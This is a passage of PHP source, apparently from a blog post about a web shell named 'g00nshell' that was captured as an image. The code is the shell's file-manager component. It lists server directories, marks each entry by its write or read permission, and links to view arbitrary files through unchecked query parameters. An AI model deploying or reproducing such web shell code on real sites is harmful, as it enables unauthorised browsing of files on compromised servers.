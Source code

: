   echo("&lt;/h4&gt;");
  echo("&lt;table&gt;");
  echo("&lt;th&gt;File Name&lt;th&gt;File Size&lt;/th&gt;");
  if ($handle = opendir($dir)) {
    while (false != ($link = readdir($handle))) {
      if (is_dir($dir . '/' . $link)){
        $file = array();
        if(is_writable($dir . '/' . $link)){$file['perm']='write';}
        elseif(is_readable($dir . '/' . $link)){$file['perm']='read';}
        else{$file['perm']='none';}
        switch($file['perm']){
          case "write": @$file['link'] = "&lt;a href='?dir=$dir/$link'&gt;&lt;font color='green'&gt;$link&lt;/font&gt;&lt;/a&gt;"; break;
          case "read": @$file['link'] = "&lt;a href='?dir=$dir/$link'&gt;&lt;font color='yellow'&gt;$link&lt;/font&gt;&lt;/a&gt;"; break;
          case "none": @$file['link'] = "&lt;a href='?dir=$dir/$link'&gt;&lt;font color='red'&gt;$link&lt;/font&gt;&lt;/a&gt;"; break;
          default: @$file['link'] = "&lt;a href='?dir=$dir/$link'&gt;&lt;font color='red'&gt;$link&lt;/font&gt;&lt;/a&gt;"; break;
        }
        @$file['icon'] = "folder";
        if($_SERVER['QUERY_STRING']){$folder = "&lt;img src='?" . $_SERVER['QUERY_STRING'] . "&img=" . $file['icon']. "'&gt; " . $file['link'];}
        else{$folder = "&lt;img src='?img=" . $file['icon']. "'&gt; " . $file['link'];}
        array_push($folders, $folder);
      }
      else{
        $file = array();
        $ext = strtolower(end(explode(".", $link)));
        if(!$file['size'] = nicesize(@filesize($dir . '/' . $link))){
          $file['size'] = "0B";
        }
        if(is_writable($dir . '/' . $link)){$file['perm']='write';}
        elseif(is_readable($dir . '/' . $link)){$file['perm']='read';}
        else{$file['perm']='none';}
        switch($file['perm']){
          case "write": @$file['link'] = "&lt;a href='?act=view&f=" . $link . "&dir=$dir'&gt;&lt;font color='green'&gt;$link&lt;/font&gt;&lt;/a&gt;"; break;
          case "read": @$file['link'] = "&lt;a href='?act=view&f=" . $link . "&dir=$dir'&gt;&lt;font color='yellow'&gt;$link&lt;/font&gt;&lt;/a&gt;"; break;
          case "none": @$file['link'] = "&lt;a href='?act=view&f=" . $link . "&dir=$dir'&gt;&lt;font color='red'&gt;$link&lt;/font&gt;&lt;/a&gt;"; break;
          default: @$file['link'] = "&lt;a href='?act=view&f=" . $link . "&dir=$dir'&gt;&lt;font color='red'&gt;$link&lt;/a&gt;&lt;/font&gt;"; break;
        }
        switch($ext){
        case "exe": case "com": case "jar": case "": $file['icon']="binary"; break;
        case "jpg": case "gif": case "png": case "bmp": $file['icon']="image"; break;
        case "zip": case "tar": case "rar": case "gz": case "cab": case "bz2": case "gzip": $file['icon']="compressed"; break;
        case "txt": case "doc": case "pdf": case "htm": case "html": case "rtf": $file['icon']="text"; break;
        case "wav": case "mp3": case "mp4": case "wma": $file['icon']="sound"; break;
        case "js": case "vbs": case "c": case "h": case "sh": case "pl": case "py": case "php": case "h": $file['icon']="script"; break;
        default: $file['icon'] = "unknown"; break;
        }
        if($_SERVER['QUERY_STRING']){$file = "&lt;tr&gt;&lt;td&gt;&lt;img src='?" . $_SERVER['QUERY_STRING'] . "&img=" . $file['icon']. "' height='18' width='18'&gt; " . $file['link'] . "&lt;/td&gt;&lt;td&gt;" . $file['size'] . "&lt;/td&gt;&lt;/tr&gt;\n";}
        else{$file = "&lt;tr&gt;&lt;td&gt;&lt;img src='?img=" . $file['icon']. "' height='18' width='18'&gt; " . $file['link'] . "&lt;td&gt;" . $file['size'] . "&lt;/td&gt;&lt;/tr&gt;\n";}
        array_push($files, $file);
      }

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/01/g00nshell.png